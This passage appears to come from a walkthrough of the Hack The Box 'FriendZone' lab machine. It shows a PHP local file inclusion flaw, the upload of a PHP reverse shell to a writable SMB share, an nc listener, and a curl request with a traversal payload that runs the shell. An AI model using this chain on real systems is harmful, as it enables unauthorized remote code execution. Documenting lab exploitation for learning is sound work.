 		 echo "<center><h1>Something went worng ! , the script include wrong param !</h1></center>";
		 include($_GET["pagename"].".php");
		 //echo $_GET["pagename"];
		 }
		}else{
		echo "<center><p>You can't see the content ! , please login !</center></p>";
		}
		?>
		```
		- Based on this, we are able to do directory traversal and include a file w/ `.php` extension
6. We are able to spawn a shell if we are able to somehow upload a `php-reverse-shell.php`.
7. Earlier, while enumerating `TCP/139,445 (SMB)`, there is a fileshare `Development` that we have `RW` access to it



## TCP/139, 445 (SMB) - Upload php-reverse-shell.php
1. Upload a `php-reverse-shell.php`
	```
	┌──(root💀kali)-[~/htb/friendzone/10.10.10.123/loot/smb/development]                                                                                                        
	└─# smbclient //friendzone.htb/Development                                                                                                                                  
	Password for [WORKGROUP\root]:                                                                                                                                              
	Try "help" to get a list of possible commands.                                                                                                                                             
	smb: \> put php-reverse-shell.php                                                                                                                                           
	putting file php-reverse-shell.php as \php-reverse-shell.php (49.7 kb/s) (average 49.7 kb/s)                                                                                
	smb: \> ls                                                                                                                                                                  
	  .                                   D        0  Sun Sep 11 03:08:14 2022                                                                                                  
	  ..                                  D        0  Thu Jan 24 05:51:02 2019                                                                                                  
	  php-reverse-shell.php               A     5493  Sun Sep 11 03:08:14 2022                                                                                                  
	                                                                                                                                                                            
	                9221460 blocks of size 1024. 6214168 blocks available     
	```
2. The comment of `Files` fileshare is **key** to uncovering the FULL PATH of `Development` fileshare on the system
	```
	┌──(root💀kali)-[~/htb/friendzone/10.10.10.123/loot/smb]
	└─# smbmap -H friendzone.htb
	[+] Guest session       IP: friendzone.htb:445  Name: unknown                                           
	 Disk          Permissions     Comment
	 ----          -----------     -------
	 print$        NO ACCESS       Printer Drivers
	 Files         NO ACCESS       FriendZone Samba Server Files /etc/Files
	 general       READ ONLY       FriendZone Samba Server Files
	 Development   READ, WRITE     FriendZone Samba Server Files
	 IPC$          NO ACCESS       IPC Service (FriendZone server (Samba, Ubuntu))
	```
	- We can assume that `Development` fileshare resides in `/etc/Development`

## TCP/443 (HTTPS) - Execute reverse shell
1. Start a listener
	```
	┌──(root💀kali)-[~/htb/friendzone/10.10.10.123/loot]
	└─# nc -nvlp 4444
	Ncat: Version 7.92 ( https://nmap.org/ncat )
	Ncat: Listening on :::4444
	Ncat: Listening on 0.0.0.0:4444
	```
2. Execute our reverse shell
	```
	┌──(root💀kali)-[~/htb/friendzone]
	└─# curl -ks -H "Cookie: FriendZoneAuth=e7749d0f4b4da5d03e6e9196fd1d18f1; sid=62febea0-31b0-11ed-a80f-e52e5d473100" 'https://administrator1.friendzone.red/dashboard.php?image_id=test&pagename=../../../../../etc/Development/php-reverse-shell'
	```